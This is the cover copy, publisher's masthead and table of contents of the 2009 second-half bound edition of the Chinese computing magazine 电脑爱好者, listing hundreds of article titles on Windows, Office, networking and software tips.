# 电脑爱好者2009合订本（下）正文分册

全面了！太实用了！太精彩了！太超值了！

海量超实用DVD光盘

微软独家授权Office2010 Beta抢先尝新

# 电脑爱好者

# 合订本 正文分册

2009年下半年

6000个经验技巧 5000篇文章 4000个软硬产品 400万字内容

- 2009年（下半年）《电脑爱好者》杂志全集
- 全面精通Windows 7
- Office 2010最新学用
- 2010硬件技术全揭秘、2009硬件技术大盘点

# 光盘包含

- Office2010Beta中文版
- 《电脑爱好者》2009年全年电子版(全文检索)
- 电脑学用工具软件万宝囊
- 世界·中国旅游胜地览胜杂志合集
- 精彩流行音乐赏析

RAPOO 雷柏 | 10m wireless 无线传输距离

3900 2.4G笔记本型无线鼠标

# 典范之作 舒适随享


激光 · 可调速 · NANO

时尚雷柏 无线精品

http://www.rapoo.com

# 电脑爱好者

# 合订本·正文分册·2009下半年

# # 《电脑爱好者 合订本》2009年(下) · 正文分册

主管单位: 中国科学院
主办单位: 北京《电脑爱好者》杂志社

顾问: 郭传杰
社长: 葛程远
执行社长/总编: 封立鹏

出版部: 聂静（主任）

副主编: 潘留军
发行部: 刘丽华（总经理）

办公地址: 北京市海淀区翠微中里14号楼4层
通信地址: 北京123信箱（《电脑爱好者》杂志社）
邮编: 100036

E-mail: chat@cfan.com.cn (稿件请投相应栏目信箱)
网址: http://www.cfan.com.cn
总机: 010-68130909

广告客户部: 010-68250606/68251818/68258181

- 读者服务部 (发行): 联系方式（周一至周五，9:00~11:30, 13:00~17:30）
  在线QQ: 864186362  手机短信: 13801293315  电话: 010-68258784
  邮购自助查询: 010-68259307 / 68259457

零售: 全国各地邮局（所）
国内发行: 北京报刊发行局
邮发代号: 82-528

刊号: ISSN1005-0043/CN11-3248/TP

印刷: 北京外文印刷厂
广告许可证: 京海工商广字第0055号
法律顾问: 北京周涛律师事务所（网站www.zt148.cn）
电话: 010-63141013, 13366185341

本书如有印刷或装订质量问题，我们负责调换。E-mail: publish@cfan.com.cn
图文版权所有，未经同意不得转载、翻印
全套合订本（正文分册、附录分册、配套DVD）  定价：39.8元

# CONTENTS目录

# 电脑爱好者2009（下半年）合订本

# 正文

[邮发代号:82-528]

# 新人帮

- 17 玩转图片，Word活动总结精彩呈现
- 17 开源节流，可谓续航之道
- 17 轻轻地我走了，正如我轻轻地来
- 18 与模糊说再见 降低拍照抖动小技巧
- 18 自恋无限 让靓照占领电脑的边边角角
- 18 斗牛：傲游实现网页视频轻松看的两种方法
- 19 借把钥匙，也要打开Vista这扇门
- 19 “型”男的决定——字型也要帅
- 20 弹指之间 快如闪电 玩转键盘上的快捷键
- 20 DVD摇身变蓝光，GPU通用加速帮你实现
- 20 硬盘“咔咔”闪不停，难道是性能不够吗？
- 21 英语需要移动学，手机助我学英语
- 21 玩转PDF，读遍天下书
- 21 打印机闹情绪调教之续集
- 22 Word表格原来如此轻松
- 22 亮点不可怕，判断问题才是出路
- 22 想聊就聊谁也挡不住——QQ暗聊独门绝技
- 23 我要找到你，不管南北东西
- 23 打造22英寸数码相框
- 23 实时文件系统的秘密
- 23 弄清神秘BIOS，开机出错我不怕
- 24 玩转任务计划，效率成倍提升
- 24 视频压缩，一边看来一边转
- 24 工作生活有规律，全靠“秘书”来提醒
- 25 小册子完美打印之终结者
- 25 隐藏分区 看我另辟蹊径
- 26 热门铃声立等可取
- 26 不同的页面，不同的水印
- 26 虽然你轻轻地来，但是带不走1KB数据
- 27 用好查找和替换，文档处理更轻松
- 27 热键，提高效率的通道
- 27 Web版式出手，网页打印无忧
- 27 以退为进，不连续网文表格快速删
- 28 用QQ文件中转站，免费为网盘扩容
- 28 共享不愁 家庭网络快速建
- 28 键鼠生病，急救有方
- 29 躺在床上看大片，和不爽说byebye
- 29 写博客再也不会“一停没”
- 29 以一顶二 手杀更轻松
- 30 为什么他上网浏览那么快？
- 30 打造最顺手的文档编辑环境
- 30 数码照片也能自动处理

- 31 网址缩短，要的就是批量
- 31 关于RSS订阅我有话说
- 31 QQ空间装扮终极武器：QQ空间克隆
- 31 《轻松找出邮件附件中的宝贝》的回音
- 31 新系统装驱动不用费心思
- 32 随时提醒，才是真的忘不了
- 32 显示桌面难吗？
- 32 修复损坏Word文档还有两招
- 32 Flash游戏下载更轻松
- 32 不要“鼠标手”，从“新”做起
- 33 SSD想说爱你还真难
- 33 用好超链接，来去更自由——玩转Word2007的超级链接
- 33 用好系统功能 打造简易相框
- 33 也谈撤回发出的邮件
- 34 保护+提醒，我的报表不出错
- 34 鼠标生大病，鼠标键救急
- 34 功能区映射表Word 2007命令轻松找
- 34 一键Ghost备份文件的删除方法
- 34 端口转发新方法
- 35 新时代文件共享三两式
- 35 借助“3G尺”，不让网费超标
- 35 了解它，步入高手的殿堂：任务管理器
- 36 3000元的3D动画制作电脑？
- 36 专业显卡、游戏显卡傻傻分不清楚
- 36 扔掉稿纸 文档修改更便利
- 36 快速访问桌面项目，无招胜有招
- 37 国庆的照片用PowerPoint来管理 PowerPoint制作音乐相册
- 37 用好“全能”的QQ邮箱
- 37 绝对控制！将桌面作用发挥到极致
- 38 找文件不一定非要用搜索
- 38 本是同根生 为何数值不一样
- 38 QQ表情快搜索
- 38 《不同的页面，不同的水印》的延伸
- 38 液晶显示器到底会不会“流汤儿”
- 39 同一篇文章，同一个问题：解决赛博QQ的烦人提示
- 39 游戏存档 我用你的
- 39 IS UC唱歌不再愁
- 39 和F1说拜拜
- 39 解决赛博QQ的烦人提示
- 40 炫音流影，这是我的网络世界
- 40 文件移动、复制又一法
- 40 加快操作，三步并作两步走
- 41 机箱的那些线
- 41 打印 没你想像的那么简单
- 41 网络要宽带 文件要减肥

- 42 Word按小数点对齐数字简单一法

- 42 “主”宰电脑 “板”定乾坤

- 42 菜鸟“撞”上网络防护墙

- 42 警惕！卖二手卖出隐私

- 42 停用闪盘本来就很简单

- 43 解读操作系统大本营

- 43 超清晰、不怕黑：高档摄像头的秘密

- 44 缺少DLL文件时，我将不会再想起你：DirectX

- 44 刨根问个底 开机为什么这么慢

- 44 细说常说的“节约资源”

- 45 Windows 7下打造XP样式任务栏

- 45 珍惜话费 远离响一声

- 45 网络罢工谁之过？

- 46 玩转触摸板

- 46 DIY“花季护航”

- 46 邮箱体积大 附件技巧多

- 47 彻底免费 不杀白不杀

- 48 “打扮”电脑世界的形象代言人

- 48 手机、IP，统统知道你在哪……

- 49 被监管下的自由——又到“抄底”好时机

- 49 移花另接木，也要骗过雨林驱动工具

- 49 最近的文档记录：我的地盘我做主

- 50 告别ADSL MODEM错误678

- 50 找回WIN7的镜子

- 50 “安全模式”就安全？

- 50 为Windows XP增加Vista的3D切换

- 50 EFI：阻挡“Windows 7大帝”的神秘“系统”

- 51 危险！“我的E家”大门常打开 小心邻居常蹭网

- 51 晋级高手宝典 DIY不再难

- 52 手机上网，你也需要功能性“饮料”

- 53 我要下达USB禁用令！

- 53 换换字体 手机更靓

- 53 让PowerPoint音乐相册一直放映下去！

- 53 文件要减肥，其实没那么复杂

- 54 搞定烦人的等级编号

- 54 每个闪盘都有一把锁

- 54 DIY个性操作系统选择界面

- 55 大硬盘的烦恼——复制加速工具

- 55 价格已定！穷人买本八要素

- 56 你偷网站Logo 我来偷软件Logo

- 56 恢复Windows 7快捷方式的小箭头

- 56 用%Appdata%找到游戏存档

- 56 菜菜同学的光盘刻录

- 56 关键时刻把家伙亮出来

- 56 小数点错误惹麻烦

- 56 软件签名，其实可以更简单

# 特别话题

- 57 北京浮生记——一个IT民工“凿壁偷网”的故事

- 59 忽冷忽热 别让电脑得上流感

- 61 坚决不做“肉鸡”大虾电脑不被入侵的秘密

- 63 当世界的大门关闭时，我们还有电视直播！

- 64 没有光驱的日子——系统管理员日记曝光

- 67 我为“变形”狂 网络金刚之风云再起

- 69 史上最强网络作弊王新学期逃课通关必杀技

- 72 2.0音箱甜美的音色 不能只靠一张试音碟

- 73 超越Excel 30张图揭秘图表魅力

- 74 尊严之战Windows 7时代的XP逆袭——系统加速体验新纪元

- 76 大时代、大内存、大硬盘、大搜索的故事

- 78 植入SLIC打造兼容品牌机

- 81 打造你自己的“名博论语”博客高手4天速成

- 83 P55芯片组关公战秦琼问谁能抱得Lynnfield归

- 84 紧！风声很紧！15个PDF情报泄露

- 86 一切从音乐“毒品”说起

- 89 Word引领文字“革命” 5连发重磅出击

- 91 激活有门道 免费是王道Windows 7激活从入门到精通

# 稀饭软组织·系统

- 95 7时代来临，徘徊选择后如何完美

- 95 大话SP2 你可能不知道的三字诀

- 96 当心灰太狼的偷袭，小心翼翼保安全运行

- 96 我来修电脑(2009年12期)

- 96 任务栏地址不见，SP3太面？

- 97 学生上课睡觉？老师您试试Ubuntu

- 97 我的闪盘随处“闪”

- 97 记事本也能挂马马？

- 97 徒手，让卸载进行到底

- 97 打印照片，你别玩自动旋转

- 98 文件扩展名，收放自如一键搞定！

- 98 保护视力，智能调整屏幕色温

- 98 人老窗不老，8旬XP修炼花哨时髦窗口

- 98 告别N次无聊操作，一键恢复哥俩都好

- 99 一个电话引发的特训，1月8技速成热心达人

- 100 不务正业，另类方法快速整理磁盘碎片

- 100 正点照片 Ubuntu下照样PS

- 100 挑战Refine！争当系统御用写手

- 100 简单代码 为剪贴板添加“内力”

- 101 不做倒霉熊，洒脱面对主管抛来的“霉”眼

- 101 排好队形不落伍，古老地盘全美化

- 101 嫁入名门，光驱启动驶入VIP快速通道

- 102 这个世界真不冷，让电脑给他们多一点爱

- 102 苦海无边 “拯救”机房小记

- 102 请穿好你的外衣 外观难题总攻略

- 102 没有做不到！快速复制“死”文字

- 103 “不丢人、不多虑、不缺件” 三不原则搬进T级别别墅

- 103 不让闪盘迷人眼，借你火眼快速找文件

- 104 我来修电脑(2009年14期)

- 104 释放通行证 古董店开在新特区

- 104 杯酒、满茶，切磋棋艺享天伦

- 105 表里如一，启动菜单语言随你定

- 105 一本PC，两手准备，摘下苹果满天“行”

- 106 手术不动刀，化骨绵掌迁移大程序

- 106 左手鼠标，给你这样的男人

- 106 不折腾不快乐，新驱动进驻Vista光盘

- 107 子曰：好的自动播放，可以留一点儿

- 107 距离产生美，让副系统拯救主系统

- 107 专业精神要有，看时间技巧更要有！

- 108 曾哥，别让我抓狂！分区，拿什么拯救你的隐藏？

- 108 大腕儿待遇，大文件从此爱上闪盘

- 109 偷袭影音图，保住隐私才快乐

- 109 “月光宝盒” ——带我回到蓝屏那一刻

- 110 移花接木：“贴牌”巧骗雨林驱动工具

- 110 天涯若比邻 Windows 7远程看片儿

- 110 纯净娱乐 Ubuntu中文程序无乱码

- 110 我换我换我换换 DIY冰3桌面秀

- 111 金秋收获 PC上品尝Android鲜果

- 111 闪盘停用、启用，一键搞定

- 111 混不好就不回来了！Ubuntu征服软件的4个蜕变

- 111 不繁琐，调节声音用滚轮

- 112 没有可能？普通DVD光盘当闪盘用！

- 112 抛弃安装，“假”文件成就真系统

- 112 一打一准，我的进程叫顺溜

- 112 快速回到桌面，我有新招

- 113 太简单了！上网本必备启动盘

- 113 磁盘碎片整理之英雄擂台

- 113 给U盘加把锁，我有BitLocker

- 113 用nLite自制认识SATA的XP安装盘

- 114 神探出手，巧破分区离奇失踪案

- 114 情义之外的故事，宿舍电脑也要“花季护航”

- 115 长假漫漫，扔掉GHOST，打造新的备份恢复盘

- 115 通宵BT不再怕 系统助你省钱花

- 115 窥一斑而见全豹 PSD缩略图开“天眼”

- 116 窗口大一点，世界更清晰 放大Vista任务栏的预览窗口

- 116 收藏夹的征兵计划

- 116 我家大门常打开，欢迎你住进来 让Win7与Ubuntu和谐共处

- 116 升级系统没有安装盘？抓硬盘来做苦力

- 116 1TB以上硬盘，如何装一键还原？

- 116 不要宰牛刀，MD5值校对更方便

- 117 穿上神速靴，不怕OUT，路径“秋技7宗最”

- 118 “结伴儿”治假死，有效率 “组团儿”管进程，不忽悠

- 118 EASY到底，内存速当硬盘使！

- 118 SREng不折腾，低调治驱动不兼容

- 118 软件搬家，XP到7总动员

- 118 自作聪明的更新后自动重启，举起手来

- 119 它适合你吗？明明白白你的地盘

- 119 安全第一，请进原版Windows 7安装镜像

- 119 点了“关机”之后，玄机来了……

- 120 敲打的享受，小三儿拼音输入HAPPY总动员！

- 120 注册表导入，拒绝多嘴提示

- 121 能虚则无敌 让Win7成为大沙盒

- 122 别卖关子！SU出马搞定用户切换

- 122 极速！为RAR文件解压找把“快刀”

- 122 挡在自家大门外，启动文件丢失你该咋办？

- 123 突然断电？我不怕了

- 123 拯救烂盘不找专家，你身边就有

- 124 不按常理出牌，三招轻松制作虚拟机

- 124 停电带来的小灾难……

- 124 当硬盘被还原成一个分区

- 125 天要下雨，娘要嫁人……小有所依，为上网本选个“好媳妇”


- 126 商品好坏且听他人评说

- 126 要想忘不了，就用网络记事本

- 126 撤回发出的邮件——QQ邮箱覆水能收

- 126 谷歌“时光机器” 穿越历史时空

- 127 微软急了，IE8亮绝招

- 127 iGoogle来袭，挡也挡不住的爱情轰炸机

- 127 谁是最好的网络仓库——最新网盘应用实例及评测

- 128 WOW！整治混乱的网络生活

- 128 文档部件库，邮件快手的秘密基地

- 129 有求必应！微软bing都应了什么

- 129 手机WAP网站建在自己家

- 129 好友上线请自报家门

- 130 QQ2009，补补更健康

- 130 排排坐，食果果，窗口再多也不乱

- 130 重建通天塔，走遍天下都不怕

- 131 3G来了，你的钱袋捂紧了吗？

- 132 MM追星热 偶像照片一把抓

- 132 IE8直接视频搜索有求“必应”

- 132 要的就是干货，论坛帖子脱水有术

- 132 迅雷要破产，会员功能免费用

- 132 超长网址惹人厌，网上流行“超短裙”

- 133 手机“放飞”电脑，千里之隔一线牵

- 133 畅所欲言：谁是最好的网络地盘

- 134 不注册不登录，随手传图好去处

- 134 资源更新，电驴报信

- 134 一不留神，你被鄙视了

- 134 校内美女偷偷看

- 134 窃不是偷，QQ空间日志转载没商量

- 134 Google不着调，本机DNS拉回头

- 135 谁说校园网不入电信？突破校园网

- 135 巧借路由器，揪出内网里的P2P小偷

- 135 不进你家门，照样看QQ空间靓照

- 135 大流量莫浪费，共享3G网络盛宴

- 135 流氓没文化 一样能作诗

- 136 找回QQ开心农场中消失的好友

- 136 晴雨早知道，天气预报进驻谷歌日历

- 136 既快又省，谁是最好的免费短信平台？

- 136 轻松找出邮件附件中的宝贝

- 137 借手机上网，节省流量我有招

- 137 不再怕断网，离线Gmail想用就用

- 137 书上能的我也能，书上不能的我还能——网络时代的读书技巧

- 138 本地DNS解析，不再怕暴风断网门
- 138 解密IE8中新建选项卡的秘密
- 138 打破壁垒，在迅雷中添加自己的应用
- 138 淘宝购物，轻松找到我的宝贝
- 139 隐私浏览也要按需定制
- 139 闲事管到微软头上，纳米机器偷入SkyDrive
- 139 WeFi圈出你的无线王国
- 139 不用装插件，IE8照样穿马甲
- 139 陌生人邂逅在网上
- 140 不仅仅是模仿秀，在线电脑各有绝活
- 140 像人一样思索的搜索引擎
- 140 三维世界，看尽天下美图
- 141 你该知道的迅雷的4件事
- 141 每天上网一小时，自己赚钱养QQ
- 142 喝茶去，下载就让迅雷去代劳吧
- 142 伊妹儿瘦身半分钟教程
- 142 Send To谷歌阅读器会飞的翅膀
- 142 漂亮的网站Logo随手“偷”
- 142 图“说话”，一锅端，新QQ功能超会员
- 143 音乐达人的几个关键词
- 143 P2P软件飙起来——菜鸟也能玩的“端口转发”
- 143 谷歌浏览器4.0来啦！
- 144 不放弃，不抛弃——BT下载一半无进度之应变大法
- 144 3G上网遭遇“初始化失败”
- 144 拒绝重装，让QQ和迅雷重新“绿”起来
- 144 火狐，没手机也能玩的GPS
- 145 贾君鹏，开心农场里的菜熟了
- 145 登录也无忧——谨防已登录QQ泄密
- 146 开复，你也推推我啊——缘在微博客
- 146 “画”言巧语聊聊天
- 147 软件分身有术，一台安装多台使用
- 147 买卖陷阱，淘宝别被“淘”
- 148 喂，别超速——网络限速我有招
- 148 10秒判断是否还是Ta好友
- 148 MSN的自动回复小秘书
- 148 迅雷为傲游下载接力
- 148 另辟蹊径申请QQ“靓号”
- 148 G.ho.st，能BT的超级网盘
- 149 揣在口袋里的邮箱
- 149 放大表情符，MSN笑得更灿烂
- 149 RSS阅读谁是最好的“网络信使”
- 150 软硬兼施，蹭网者请走开
- 150 断网也不怕，远程照协助
- 150 边走边乐——谷歌地图玩乐记
- 151 善用零碎时间，上班路上手机学英语
- 151 嘿，想不想知道谁在看你的博客？
- 151 嘘，把你的密码锁进保险箱
- 152 我家大门常关着，黑客进不来
- 152 惹不起我躲，关闭好友恶评门
- 152 又快又好！QQ2010来了……
- 152 你有好消息！请到邮箱收
- 153 跨越暗沟，突破新型迅雷封锁

- 153 一箭三雕，告诉你迅雷不为人知的“漏洞”
- 153 好友、联系人呼叫转移
- 154 飞信QQ比翼双飞——自己捆绑IM软件
- 154 免费获取QQ农场大礼包
- 154 找个陌生人说说家常话
- 155 存取有道，手机和网络的亲密接触
- 156 DIY自己的互联网电视机
- 156 远程桌面，先亮身份
- 156 浏览器里的驱动升级行动
- 156 你的杀毒软件被暗杀了吗？
- 157 下班了，工作拿回家做吧
- 157 Win7让WiFi来得更猛烈些吧
- 157 躺床上冲浪 手机连到宽带上
- 157 PPS电影下载看
- 158 酷酷酷，不一定要技术
- 158 一劳永逸，竖排网页显古韵
- 158 QQ秘密“基地”的那些事儿
- 158 另类的动态QQ签名秀
- 159 办公室隐身术，明目张胆看美眉
- 159 新片快递员，移动硬盘内网自动共享
- 159 在线文档，随处打印不变形
- 160 你的心情现在还好吗——在线调查轻松报
- 160 不入虎穴得虎子，安全预览链接图片

# 稀饭软组织·软件

- 161 电脑异常 卡卡教你六步治百病
- 161 双剑合璧，手动杀毒更彻底
- 161 网马随处“跑” 手动如何“逃”
- 161 截图有功底 细节不放弃
- 162 减轻包袱 轻装上路 大块头软件加速启动
- 162 铁打营盘流水兵 过时技巧你还在用吗
- 162 眼睛一闭一睁 表情就打出来了hang~
- 163 别把软件“收藏夹”当鸡肋
- 163 音乐无罪 玩在线游戏不再卡
- 163 我家门前养只小狗狗 病毒、木马不敢进
- 163 变脸，你玩了吗
- 163 谁说GIF大小不能改
- 163 夏季着靓装 我的软件换新衣
- 164 不能只卖服装，不卖飞机——程序员的梦之路
- 164 软件生病有补丁 补丁生病怎么办
- 164 分区变了 别再让快捷方式“独守空房”
- 165 魔法设置逞英豪——超级兔子9.0 Beta2版
- 165 雁过留声 人过留名 文件分享加烙印
- 165 搜狗输入法 教你认识生僻字
- 166 KMS 8.0造就失而复得的手机
- 166 系统加固之瑞星深层防护
- 166 告别白纸黑字，享受读纸质小说的原汁原味
- 166 微软新宠 MSE实测一二三
- 166 不玩躲猫猫 “千千”自觉靠边

## CONTENTS 目录
《电脑爱好者》合订本·正文分册

## 稀饭软组织·办公
- 195 最忠实的用户 永不满足的研发者
- 196 上下左右齐扩张 桌面不再不够用
- 197 病毒肆虐 免费为电脑接种疫苗
- 197 “白”得有道理 瞧瞧瑞星的三种“白”
- 197 洗心革面 给杀软美美容
- 198 会搭积木吗？去做个流程图吧
- 198 远离系统重装烦恼 兔子备份工具显身手
- 200 财务数据一览无余
- 201 给WPS 2009加装翻译词典
- 201 使用WPS文字制作精美宣传页
- 201 WPS 2009强力文件工具一二三四
- 201 一体机扫描仪常见故障解决
- 202 精图绝恋 Word物理做图一点通
- 203 有选择删除Word最近文档记录
- 203 Excel的超级工具箱
- 203 WPS 2009，化零为整大法
- 203 清晰明了，示意图轻松做
- 204 另辟蹊径，快速批量打印成绩单
- 204 绿色环保：一纸打印
- 204 多头并举，巧妙修复损坏的Office文档
- 205 工作变轻松 让生产销售统计表更智能
- 205 Office联姻Google文档，协作办公更轻松
- 206 统计必学技：按不同年龄段统计员工数量
- 206 Word按小数点对齐数字
- 207 Word 2007中的公司徽标快速输入
- 207 善用表格让办公更轻松
- 207 我来制作语文试卷
- 208 老师是好是坏由你说了算！
- 208 WPS中我的表格会武术，函数计算挡不住
- 209 玩的就是专业：Excel打造客户往来款管理系统
- 209 Word文档打不开，缘是杀软对着干
- 210 Excel多工作表快捷输入两小招
- 210 不用函数也能玩统计：快速录入、统计学生成绩
- 210 谷歌、OpenOffice 打造办公系统
- 211 WPS 2009：材料送审，修修订订快又省
- 211 为Word创建个还原点
- 211 邀请模板巧梳妆 职场专业懒虫秘技偷偷报
- 212 照片人名一对一 ——另类方法在Excel中批量插入图片
- 212 巧用WPS工资表单自动调顺序
- 212 巧用自定义键盘 Word 2007快存DOC
- 213 MBA不过如此：灵活掌握进度 项目时间管理轻轻松松
- 213 巧用WPS 快速进行自动分班操作
- 214 金牌销售的Excel秘技：制作动态销售查询图表
- 215 原创软件独家发布：Word文档一键快速转换
- 215 绘图测量数字化，我有“德威”显身手
- 215 巧用文本框，《简报》制作也专业
- 216 妙用动态散点图，精确计算盈亏平衡点

## 稀饭软组织·校园新鲜人
- 217 老同学，你好吗——假期“校内”N日游
- 217 入学完美准备计划——给学弟的一封信
- 217 电教室病毒，别和我躲猫猫
- 218 刻录校园点滴 珍藏永恒记忆——炫目的同学录DVD巧制作
- 218 校园个人网站，风生水起
- 219 全国高校若比邻，神速下载任我行
- 219 暑期IT社会实践，我来了
- 219 巧用网络记账 让钱包鼓起来
- 220 大学新人宿舍组网全攻略
- 220 男女有别的电脑
- 220 校园个性纪念扑克DIY
- 221 IPv6，我最in的校园专网
- 221 教你绝招，把奖学金放入荷包
- 222 玩转手机 非一般省钱
- 222 大学校园IT代理，看我的
- 222 2B铅笔的演讲
- 223 使用LMA，移动设备随时给知识“充电”
- 223 班级资源共享的小天地
- 223 校园小物件PS一下，效果大不同
- 224 玩转多媒体背景，校园活动更精彩
- 224 让手机也来当你的课堂老师
- 225 PSP变身学习机
- 225 我的宿舍生活之IT篇
- 225 手机故事，来自国庆阅兵民族方队里的姐妹花
- 225 数码宝贝的故事
- 226 极客系列之饭卡解密
- 226 宿舍IT宝贝秀系列之陕西师大宿舍IT设备展
- 226 电脑助阵，考研奋战50天
- 226 北大精灵的数码情节

## 达人会馆
- 227 本是同根生 因何不共存
- 227 千里电脑一线牵 你被遥控了吗
- 227 自动清除不联系的好友
- 228 驱动那点事交给谁来办？五款驱动管理软件横评
- 229 QQ里的“漏网之鱼”
- 229 哼着哈着谱小曲
- 229 “旺仔”的垃圾苦恼
- 229 搜索引擎也认人？
- 230 电容屏电阻屏 手机触屏讲究多
- 230 视频接口多又乱 为什么视频接口那么多
- 230 Stop！一切操作完全定格
- 231 用“暴风门”事件给你上一节网络知识课
- 231 按播放次数听歌
- 231 是我的兵要和我走
- 232 Angel or Evil，临时文件合体之身的辨证
- 232 网站还是软件？在线文件处理盛行

## 傻博士信箱
## 系统
- 232: 一分二，一分四（1）
- 232: 一分二，一分四（2）
- 232: 关闭“好友印象”（1）
- 233: 不见兔子不放鹰 揭秘病毒如何启动
- 233: 百度P2P搜索是昙花一现吗
- 234: 你OUT了？流行图片处理软件比比看 五款图片自动处理软件横评
- 235: Stop！一切操作完全定格
- 235: 快速启动你的系统（1）
- 235: 查找被占用的电话号码（1）
- 235: 限时答题：关闭“好友印象”
- 236: 黑白画映，闪盘启动方式不再迷惑
- 236: 网上“木马”跑 看“弼马温”如何管马
- 236: 补充挑战：把Ubuntu装进口袋里
- 236: 查找占用的电话号码
- 237: 人人喊打 恶意软件还能生存？
- 237: CPU虚拟化，真的有用？
- 238: 消息信息定时发送
- 238: 只许前进不后退 你写的文字后退后还有吗
- 238: 有怪兽？探秘系统文件夹下的WinSxS
- 239: 真正海选 九款在线听歌软件比高下
- 240: 是人还是机器？一个验证码的判定
- 240: 日久见真招 用历史讲述“云安全”
- 241: Web邮件附件保存法
- 241: 查找被占用的电话号码（2）
- 241: 快速启动到系统（2）
- 241: 不同程序使用不同输入法
- 242: 加密就像做游戏 你来摆我来猜
- 242: 屏蔽QQ的信息
- 243: 来自IT的警匪片 账号盗窃案的追捕
- 243: 听说了吗？MSN掉线是“堵车”惹的祸
- 243: 关闭“好友印象”（2）
- 244: 11路豪杰争霸 网页浏览器你用谁
- 245: 如果你需要完全系统备份
- 245: 跨越权限，这事可能吗？
- 246: 校内网的老大难问题
- 246: 偏执狂的选择：让系统清爽干净的便携软件
- 246: 快速启动你的系统（3）
- 246: 打造自动偷菜机
- 246: 关闭“好友印象”（3）
- 247: 够用就好，别让半开连接数让你发晕
- 247: 回归传统，开启Win7操作流畅的KEY
- 248: 寻找最好用的软件“管家婆”软件管理工具横评
- 249: 探究无线信号传输的“强弩之末”
- 249: 纪念动感超人 搞到动感相册
- 249: 相互隔绝的网络如何同时能访问
- 249: STOP！我的操作定格在硬盘上！
- 250: 淘宝惊现漏洞 账号可轻易获取
- 250: 时间一到系统就自动登录
- 251: 独家揭秘驱动精灵在线版技术内幕
- 251: 幕后英雄——你不知道的BIOS
- 252: 微软工程师秀逗了？探寻7系统目录海量之谜
- 252: 打造“移动数据堡垒”
- 253: 中毒了！谁能解决你燃眉之急——杀毒软件应急杀毒对比评测
- 254: 天生翻译官 Windows 7怎样成就语言天才
- 254: 轻轻地你来了，请留下你的脚印
- 255: 为何系统不能记住文件夹设置
- 255: 系统总是提示虚拟内存太小
- 255: 为何不能更改系统时间
- 255: 关机命令为何不起作用
- 255: 系统开机时提示找不到“nvnctray”模块
- 255: 快速启动栏丢失
- 255: 宽屏为何不能显示桌面
- 255: 如何进入Windows 7的安全模式
- 255: 打开“我的电脑”变成选择打开程序
- 255: Windows 7不能安装显卡驱动程序
- 255: 打开漫画文件夹，CPU占用100%
- 255: 桌面的快捷方式为何总是丢失
- 256: 系统无法显示隐藏文件
- 256: 系统为何自动关机
- 256: 安装系统后没有待机、休眠选项
- 256: 系统时间总是慢8分钟
- 256: 为何无法整理碎片
- 256: 桌面总是显示“恢复Active desktop”信息
- 256: 添加或删除程序无法使用
- 256: 开机需按F1才能继续
- 256: 安装软件时提示无法抽取
- 256: 安装系统后盘符紊乱
- 256: 安装驱动提示“系统找不到指定文件”
- 256: 绿色版QQ如何在Windows 7中运行
- 257: 关闭系统还原出错
- 257: Delete文件为何很卡
- 257: 如何找回系统搜索功能
- 257: 开机时总是出现一排“圹掷圹掷”
- 257: 安装Windows 7后无法访问第二块硬盘
- 257: 无法打开盘符
- 257: RUNDLL32.EXE_无法找到组件
- 257: 升级系统后无法访问F盘
- 257: 为何不能设置BIOS参数
- 257: 输入法状态栏丢失
- 257: 声卡安装后为何还是禁止状态
- 257: 登录系统为何没有密码保护
- 257: 无法访问桌面
- 257: 文件夹被自动设置成隐藏属性
- 257: 开机总提示插入软盘
- 258: 玩游戏经常黑屏
- 258: 无法还原虚拟机
- 258: 右击桌面“属性”打不开
- 258: Windows 7只能显示1024×768的分辨率
- 258: 系统自带画图工具不能正常运行
- 258: Windows 7不能正常使用管理工具
- 258: SFC命令总需要安装光盘
- 258: 系统为何会自动开机
- 258: 无法打开控制面板中的用户账户
- 258: 无法打开设备管理器
- 258: 无法使用休眠功能
- 258: XP下部分exe文件不能运行
- 258: 桌面天气预报为何不能使用
- 259: 无法打开媒体播放器
- 259: 系统为何会自动关闭
- 259: 无法打开“计算机”的管理功能
- 259: 任务栏总是自动隐藏
- 259: 安装时遇到“安装程序无法创建新的系统分区”
- 259: 开始菜单不显示最近使用的程序
- 259: 经常出现无法停止通用卷提示
- 259: C盘无法完成碎片整理检测
- 259: 系统总是提示“Windows文件保护”提示
- 259: 无法删除回收站文件
- 259: Windows 7下如何使用工行旧版U盾
- 259: 打开任何文件便出现打开方式对话框
- 260: Windows无法显示防火墙设置
- 260: 任务栏不显示程序图标
- 260: 文件夹选项显示为空白
- 260: 无法安装Realtek声卡驱动
- 260: 系统无法打开hlp文件

## 软件
- 260: 魔法分区显示117错误
- 260: 无法卸载Live Messenger
- 260: KMPlayer无法播放录制的WMV
- 260: 小红伞注册号怎么过期了
- 260: 如何找回被瑞星删除的文件
- 260: 如何找回文件名变绿的文档
- 260: Word不能正常保存文件
- 261: 记事本无法编辑BAT文件
- 261: 为何不能播放音乐
- 261: 小红伞与OP防火墙冲突
- 261: 无法关闭搜狗拼音的自动更新
- 261: VMware为何不识别优盘了
- 261: 安装Adobe CS3提示安装程序数据库损坏
- 261: 使用金山词霸Explorer就关闭
- 261: 如何禁止优化大师在桌面创建文件夹
- 261: 魔兽总是显示错误
- 261: 卡巴斯基为何不能完成更新
- 261: 无法打开Office加密文件
- 261: 为何SOSO工具条被安装到系统中
- 261: Office总是弹出保存对话框
- 261: 无法卸载会声会影
- 261: 无法播放RM、RMVB电影
- 262: Easyboot工作出错
- 262: 无法设置虚拟PC启动还原磁盘功能
- 262: 软件运行出现（0xc0000135）错误
- 262: Ctrl+Shift为何不能切换输入法
- 262: 光盘无法复制
- 262: KMPlayer丢失捕获功能
- 262: 瑞星运行出错
- 262: 虚拟光驱无法设置新驱动器盘符
- 262: 会声会影无法运行
- 262: 如何关闭状态栏中的WinMount信息
- 262: 安装软件提示路径中含有无效字符
- 262: 如何卸载联众世界扩展组件
- 262: 千千静听被报毒
- 262: 金山词霸翻译显示乱码
- 263: 安装炫舞出现7 Zip CRC Error
- 263: 无法压缩2GB文件
- 263: KMPlayer无法播放RMVB电影
- 263: 小红伞不能更新
- 263: 无法更新Windows Search
- 263: WinRAR为何不能直接删除压缩包中的文件
- 263: 恢复AVG误删除文件
- 263: 龙卷风无法收听部分电台
- 263: 系统总提示autochk错误
- 263: Windows 7下Everything不能随机启动
- 263: 玩魔兽争霸没声音
- 263: 无法安装 Visual C++ 6.0
- 263: Word运行出错
- 263: 输入法在网页界面总是不能切换
- 264: 小红伞为何不能升级
- 264: KMP播放时有噪音
- 264: TC中中文文件为何不能按顺序排序
- 264: 为何有的歌曲不能正常显示歌词
- 264: 为何系统会提示恶意防火墙
- 264: 穿越火线不能全屏
- 264: 玩游戏界面出现灰色一片
